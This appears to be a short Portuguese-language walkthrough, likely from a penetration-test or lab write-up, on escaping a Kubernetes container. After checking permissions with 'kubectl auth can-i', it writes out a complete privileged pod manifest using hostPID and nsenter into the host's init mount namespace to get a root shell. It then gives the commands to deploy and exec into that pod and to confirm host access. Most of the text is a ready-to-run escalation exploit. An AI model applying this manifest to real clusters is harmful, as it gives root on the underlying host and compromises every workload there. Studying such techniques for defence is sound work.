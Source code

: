 Para testar nossos acessos vamos utilizar o "kubectl auth can-i"
```
./kubectl auth can-i --list
./kubectl auth can-i create pods
```

Agora vamos tentar escalar nosso privilégio criando um pod.

```
cd /tmp; cat > root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: pod-brabo-devops-extreme
  name: pod-brabo-devops-extreme
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "pod-brabo-devops-extreme"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
EOF
./kubectl apply -f root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it pod-brabo-devops-extreme -- bash
```

Conseguimos acesso ao host !  

Verificando os acessos: 

```
id

ps aux

docker ps

cat /etc/hostname

```
